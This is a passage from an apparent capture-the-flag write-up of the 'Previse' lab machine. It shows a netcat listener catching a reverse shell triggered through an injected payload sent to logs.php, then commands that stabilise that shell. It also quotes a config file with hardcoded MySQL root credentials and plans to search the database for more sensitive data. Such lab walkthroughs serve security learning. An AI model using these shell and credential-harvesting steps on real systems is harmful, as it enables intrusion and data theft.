 The script above will send the payload to the `logs.php`and allow us to instantiate a connection with the victim server.

```python
nc -lvnp 3001
```

The above snippet is necessary to accept the incoming connection from the command that we injected with the payload.

This will, inevitably, provide us with a reverse shell:

```bash
www-data@previse: $ whoami
> www-data
```

Before we move on, an augmented reverse shell could prove very useful in the long run, therefore the following few commands will display how to do so:

```bash
$ python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

# In Kali
$ stty raw -echo
$ fg

# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>
```

# User

Among the files found in the SiteBackup.zip, we also had a `config.php` file. This file, conveniently, contains credentials to a MySQL database!

```php
<?php

function connectDB(){
    $host = 'localhost';
    $user = 'root';
    $passwd = 'mySQL_p@ssw0rd!:)';
    $db = 'previse';
    $mycon = new mysqli($host, $user, $passwd, $db);
    return $mycon;
}

?>
```

We can try to connect to the database to see if there are any other sensitive information on standby.
